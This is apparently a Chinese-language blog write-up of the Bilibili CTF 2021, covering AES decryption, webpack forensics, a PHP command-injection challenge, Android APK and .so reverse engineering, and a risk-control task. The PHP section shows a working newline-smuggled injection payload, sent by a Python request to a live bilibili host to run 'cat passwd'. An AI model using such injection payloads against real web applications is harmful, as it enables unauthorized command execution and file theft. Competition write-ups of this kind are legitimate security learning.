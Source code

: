 ```yaml
---
title: "bilibili ctf 2021 writeup"
date: 2021-10-28 23:39:47
tags:
    - writeup
    - ctf
    - bilibili
categories:
    - CTF
---
```


# 0x0 简介

Bilibili CTF 简称 BTF，是一个丝毫没有含金量的ctf，狗都不玩。

你甚至可以纯复制粘贴来得到90分，属实拉垮。

活动地址: [https://www.bilibili.com/blackboard/20211024.html](https://www.bilibili.com/blackboard/20211024.html)

但是不管怎么样，我们来写一点可爱的writeup吧

<!-- more -->

# 0x1 AES

![2021-10-28_224747.jpg](./images/2021-10-28_224747.jpg)

猜一下，给了一个类似密码的东西，又给了一个类似加密后文本的字符串，那么就嗯破解就完事了

```
a = "e9ca6f21583a1533d3ff4fd47ddc463c6a1c7d2cf084d364"
b = "0408abca7deabb96a58f50471171b60e02b1a8dbd32db156"
# with open("a1","wb") as f:
#     f.write(bytes.fromhex(b+a))

from Crypto.Cipher import AES

mode = AES.MODE_ECB
cryptos = AES.new(b"happy_1024_2233\x00", mode)
plain_text = cryptos.decrypt(bytes.fromhex(a+b))
print(plain_text)
```

flag: a1cd5f84-27966146-3776f301-64031bb9

# 0x2 Forensic

![2021-10-28_225007.jpg](./images/2021-10-28_225007.jpg)

提示给的很明白了，没有含金量，直接在webpack里一翻就翻到了

![2021-10-28_225125.jpg](./images/2021-10-28_225125.jpg)

flag: 36c7a7b4-cda04af0-8db0368d-b5166480

# 0x3 php web

题目给了一段php的代码

```
<?php
    /* 
        bilibili- ( ゜- ゜)つロ 乾杯~
        uat: http://192.168.3.2/uat/eval.php
        pro: http://security.bilibili.com/sec1024/q/pro/eval.php
    */
    $args = @$_GET['args'];
    if (count($args) >3) {
        exit();
    }
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) ) {
            exit();
        }
    }
    // /bin/2233 args2 args3
    // todo: other filter
    $cmd = "/bin/2233 " . implode(" ", $args);
    exec($cmd, $out);
    for ($i=0; $i<count($out); $i++){
        echo($out[$i]);
        echo('<br>');
    }
?>
```

通过正则可以知道，所有args必须为非空格的字母或者数字，且最大长度为3

最后，这几个args会和/bin/2233 一起执行，执行的格式为 /bin/2233 args1 args2 args3

但是我们想要使用ls, 所以args1 要带上一个换行符, 换行符在url encode 后是%0a,

可以先用`args[]=1%0a&args[]=ls`获取目录，然后用cat获取文件内容

```
import requests

a = requests.get("https://security.bilibili.com/sec1024/q/pro/eval.php?args[]=1%0a&args[]=cat&args[]=passwd")
print(a.text)
```
flag: 9d3c3014-6c6267e7-086aaee5-1f18452a

# 0x4 sql injection

麻了

flag: 3d5dd579-0678ef93-18b70cae-cabc5d51

# 0x5 安卓逆向

先用dex2jar 把apk转成jar文件

然后用jd-gui打开，在 MainActivity里找到账号密码的加密方式

![2021-10-28_230240.jpg](./images/2021-10-28_230240.jpg)

![2021-10-28_230317.jpg](./images/2021-10-28_230317.jpg)

加密方式a为做异或，b为base64。反向解密一下就完事了。

```
# dex2jar get jar file
# jd gui decompile
import base64


def decrypt_a(s:bytes,paramInt:int):
    bs = bytearray(s)
    for i in range(len(bs)):
        bs[i] = bs[i] ^ paramInt
    return bytes(bs)

def decrypt_b(s:bytes):
    return base64.b64decode(s)


encoded1 = [78, 106, 73, 49, 79, 122, 65, 51, 89, 71,
                  65, 117, 78, 106, 78, 109, 78, 122, 99, 55,
                  89, 109, 85, 61]
encoded2 = [89, 87, 66, 108, 79, 109, 90, 110, 78, 106,
                  65, 117, 79, 109, 74, 109, 78, 122, 65, 120,
                  79, 50, 89, 61]
print(decrypt_a(decrypt_b(bytes(encoded1)),3))
print(decrypt_a(decrypt_b(bytes(encoded2)),3))
print((decrypt_a(decrypt_b(bytes(encoded1)),3)+b"-"+decrypt_a(decrypt_b(bytes(encoded2)),3)).decode())
```

flag: 516834cc-50e448af-bcf9ed53-9ae4328e


# 0x6 安卓逆向 .so文件

ida打开MyLib.so文件，发现all函数

满足一下条件:

1. 系统为x86且是安卓9
```
print("ro.product.cpu.abi",(3553400).to_bytes(0x8,"little")) # x86
print("ro.build.version.release",(57).to_bytes(0x8,"little")) # 9
```
2. 存在/data/2233 这个文件
3. 有读写权限

那么这个flag就会写到/data/2233文件里

![2021-10-28_230949.jpg](./images/2021-10-28_230949.jpg)


所以解题方法就是找一个安卓9, x86的系统，然后运行就完事了。

具体过程如下

```
# C:\Users\aynakeya>adb shell su 0 setenforce 0
#
# C:\Users\aynakeya>adb shell
# 1|generic_x86:/ $ su
# generic_x86:/ # echo "123" > /data/2233
# generic_x86:/ # su
# generic_x86:/ # chmod 777 /data/
# generic_x86:/ # chmod 77 /data/2233
# generic_x86:/ # chmod 777 /data/2233
# generic_x86:/ # chown everybody:everybody /data/2233
# generic_x86:/ # chown everybody:everybody /data/
# generic_x86:/ # cat /data/2233
# 123
# b1
# 39
# 81
# f4
# 5a
# e9
# 96
# d4
# bc
# 04
# be
# 5b
# 34
# 66
# 2a
# 78

```

当然有dalao贴出了代码，我也不知道是怎么做到的。

```
# from https://www.52pojie.cn/thread-1532604-2-1.html
a = 'bili_2233_3322'
b = 'bili_3322_2233'
amd5 = hashlib.md5(a.encode()).digest()
bmd5 = hashlib.md5(b.encode()).digest()
for i in range(len(amd5)):
    print(hex(amd5[i])[2:].zfill(2), end='')
    print(hex(bmd5[i])[2:].zfill(2), end='')
```

flag: b13981f4-5ae996d4-bc04be5b-34662a78

# 0x7 风控

拿一半分的方法，大概就是筛去爬虫，然后取访问次数最多的几个ip，其他就不知道了。

cr你隔这白嫖风控算法呐？